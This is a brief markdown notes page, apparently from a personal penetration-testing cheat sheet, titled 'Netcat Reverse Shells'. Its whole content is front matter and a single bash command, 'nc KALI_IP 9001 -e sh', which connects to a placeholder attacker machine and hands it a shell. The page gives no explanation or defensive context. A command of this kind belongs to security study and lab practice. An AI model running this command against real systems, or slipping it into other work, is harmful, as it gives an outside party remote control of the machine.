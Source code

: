 ```yaml
---
title: Netcat Reverse Shells
description: 
draft: false
tags: 
date: 2024-10-18
---
```


```bash
nc KALI_IP 9001 -e sh
```